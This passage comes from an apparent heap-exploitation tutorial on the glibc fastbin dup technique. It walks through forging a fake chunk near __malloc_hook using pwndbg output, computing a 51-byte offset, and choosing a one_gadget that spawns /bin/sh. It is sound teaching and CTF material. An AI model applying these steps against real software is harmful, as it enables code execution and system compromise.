 By performing an additional three allocations, we will obtain control on an address that was written in the first chunk that was both in use and freed.

## Leveraging a shell with the fastbin dup

In order to leverage a shell with the fastbin dup technique, we can use any of the libc hooks (`malloc_hook`, `free_hook`, `realloc_hook`, ...), we just have to be able to construct a fake chunk in the vicinity of one of the mentioned hooks. With pwndbg we can investigate and discover that one fake fast chunk can be constructed and it perfectly fits our chunk size (0x70 fast chunk):
```
pwndbg> find_fake_fast &__malloc_hook
FAKE CHUNKS
Fake chunk | Allocated chunk | PREV_INUSE | IS_MMAPED | NON_MAIN_ARENA
Addr: 0x7f7eac505b3d
prev_size: 0x7eac506f60000000
size: 0x7f
fd: 0x00
bk: 0x00
fd_nextsize: 0x7eac3b7570000000
bk_nextsize: 0x7eac3b7bf000007f
```

The suggested address is -51 offset from our `malloc_hook`:
```
pwndbg> p &__malloc_hook
$1 = (void *(**)(size_t, const void *)) 0x7f7eac505b70 <__malloc_hook>
pwndbg> p 0x7f7eac505b70 - 0x7f7eac505b3d
$2 = 51
```

This means that we will have to write the suggested address as the `fd` pointer of the freed chunk and overflow with 35 bytes of garbage before we start writing into the `malloc_hook`. Additionally, an appropriate one gadget has to be picked from the available ones:
```sh
$ one_gadget /lib/x86_64-linux-gnu/libc.so.6
0xe6c7e execve("/bin/sh", r15, r12)
constraints:
  [r15] == NULL || r15 == NULL
  [r12] == NULL || r12 == NULL

0xe6c81 execve("/bin/sh", r15, rdx)
constraints:
  [r15] == NULL || r15 == NULL
  [rdx] == NULL || rdx == NULL

0xe6c84 execve("/bin/sh", rsi, rdx)
constraints:
  [rsi] == NULL || rsi == NULL
  [rdx] == NULL || rdx == NULL
```

## Resolving one gadget issues
